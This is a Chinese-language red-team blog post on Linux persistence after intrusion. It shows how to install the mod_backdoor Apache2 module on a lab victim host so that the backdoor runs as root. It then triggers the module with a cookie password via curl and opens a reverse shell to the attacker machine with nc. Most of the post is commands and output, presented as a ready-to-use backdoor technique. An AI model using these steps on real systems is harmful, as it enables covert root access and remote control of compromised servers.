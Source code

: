 ```yaml
---
title: linux持久化
date: 2022-01-21 15:26:44
categories: 红队技术
tags:
- Linux安全
---
```


> 无我相，无人相，无众生相，无寿者相。

在我们入侵目标系统后，我们希望留下一个后门，方便我们下次入侵，比如写一个定时任务来反弹shell。





## 1. Apache 模块后门

> 靶机：172.16.42.151 	hostname:vuln
>
> 攻击机：172.16.42.1 	hostname:ShadowOS

项目地址：https://github.com/VladRico/apache2_BackdoorMod

mod_backdoor is a stealth backdoor using an Apache2 module.
The main idea is to fork() the primary Apache2 process just after it has loaded its config. Since it's forked before the root user transfers the process to www-data, you can execute command as root.
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this forked root apache2 process, to let us interact as root with the compromised system.



环境搭建

```
[root@vuln ~]# apt install apache2
[root@vuln ~]# git clone https://github.com/VladRico/apache2_BackdoorMod
[root@vuln ~]# cd apache2_BackdoorMod
[root@vuln apache2_BackdoorMod]# cd build
[root@vuln build]# cp backdoor.load /usr/lib/apache2/modules
[root@vuln build]# cp mod_backdoor.so /usr/lib/apache2/modules
[root@vuln build]# cp backdoor.load /etc/apache2/mods-available
[root@vuln build]# a2enmod backdoor
[root@vuln build]# systemctl restart apache2
```

攻击

```
[shadowflow@ShadowOS ~]% curl -H 'Cookie: password=backdoor' http://172.16.42.151/ping
[+] Backdoor module is running !
```

反弹shell

```
[shadowflow@ShadowOS ~]% nc -lvvp 1337
[shadowflow@ShadowOS ~]% curl -H 'Cookie: password=backdoor' http://172.16.42.151/reverse/172.16.42.1/1337/bash
[+] Sending Reverse Shell to 172.16.42.1:1337 using bash
```
